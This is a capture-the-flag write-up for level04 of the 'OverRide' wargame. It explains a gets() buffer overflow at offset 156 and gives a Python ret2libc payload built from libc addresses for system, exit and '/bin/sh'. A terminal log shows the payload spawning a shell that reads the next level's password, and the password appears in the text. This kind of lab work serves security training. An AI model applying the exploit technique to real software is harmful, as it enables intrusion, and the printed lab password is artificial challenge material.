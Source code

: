 We get the binary out of the Vm using this cmd:

`scp -P 4242 level3@192.168.56.103:./level3 .binary/level3`

Rewrite in c

We can exploit the gets function

Offset is 156 (thanks dichotomy)

Get the maxi-best-of of buffer overflow and put it after the offset
* addr system => 0xf7 e6 ae d0
* addr exit   => 0xf7 e5 eb 70
* addr bin/sh => 0xf7 f8 97 ec

python -c "print 'A'* 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" > /tmp/exploit4; cat /tmp/exploit4 - | ./level04 

```
level04@OverRide:~$ python -c "print 'A'* 156 + '\xd0\xae\xe6\xf7' + '\x70\xeb\xe5\xf7' + '\xec\x97\xf8\xf7'" > /tmp/exploit4; cat /tmp/exploit4 - | ./level04 
	Give me some shellcode, k
	cat /home/users/level05/.pass
	3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```